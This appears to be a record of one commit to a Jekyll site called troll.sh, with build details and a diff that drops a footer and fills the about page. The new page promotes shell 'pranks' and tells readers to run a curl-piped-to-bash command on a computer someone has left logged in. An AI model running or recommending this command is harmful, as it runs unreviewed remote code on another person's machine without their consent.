

Before and after one commit to jmatth/troll.sh, a Jekyll site: the page built from about.md, in a window 1280 px wide. Shown: the top 469 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Updating about page

```diff
--- a/_layouts/page.html
+++ b/_layouts/page.html
@@ -23,7 +23,5 @@
     </div>
   </div>
 
-  {% include footer.html %}
-
 </body>
 </html>
--- a/about.md
+++ b/about.md
@@ -4,4 +4,13 @@ title: About
 permalink: /about/
 ---
 
-FIXME: write the troll.sh about page.
+Welcome to troll.sh. This website acts as a collection of shell based pranks to
+play on your "friends". To use it just run the code below when someone slips up
+and leaves themselves logged into a computer:
+
+{% highlight bash %}
+curl -L troll.sh | bash
+{% endhighlight %}
+
+If you have your own prank you want to add or notice a bug, you can send a pull
+request to the [github repo](http://github.com/jmatth/troll.sh).
```
